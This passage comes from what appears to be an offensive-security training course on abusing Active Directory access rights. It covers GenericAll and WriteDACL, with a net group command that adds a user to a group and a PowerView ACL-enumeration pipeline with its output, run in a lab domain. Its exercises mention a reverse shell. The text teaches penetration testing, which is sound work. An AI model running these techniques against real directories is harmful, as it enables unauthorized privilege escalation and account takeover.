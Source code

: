 > Listing 10 - Enumerating group access rights

Listing 10 shows that we have GenericAll access rights on the _TestGroup_ group. Since GenericAll gives us full access to the group, we can compromise the group by simply adding ourselves to it.

```
PS C:\tools> net group testgroup offsec /add /domain
The request will be processed at a domain controller for domain prod.corp1.com.

The command completed successfully.
```

> Listing 11 - Adding the user offsec to TestGroups

As with user accounts, we can also use the _AllExtendedRights_ and _GenericWrite_ access rights in a similar way.

GenericAll is an extremely powerful access right that can lead to very straightforward compromise. In the next section, we'll cover another access right that we can leverage for compromise.

#### Exercises

1. Enumerate domain users and search for associated GenericAll permissions.
2. Leverage the access right to take over the _TestService1_ account and obtain code execution in the context of that user through a reverse shell.
3. Enumerate domain groups and leverage GenericAll permissions to obtain group membership.

### 19.1.3. Abusing WriteDACL

As previously stated, all Active Directory objects have a DACL and one object access right in particular (_WriteDACL_) grants permission to modify the DACL itself. In this section, we'll leverage this to compromise an account.

Before we start the attack, we'll enumerate misconfigured user accounts with Get-DomainUser and Get-ObjectAcl.

```
PS C:\tools> Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

...

AceType               : AccessAllowed
ObjectDN              : CN=TestService2,OU=prodUsers,DC=prod,DC=corp1,DC=com
ActiveDirectoryRights : ReadProperty, GenericExecute, WriteDacl
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3776646582-2086779273-4091361643-1608
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3776646582-2086779273-4091361643-1111
AccessMask            : 393236
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
Identity              : PROD\offsec
...
```
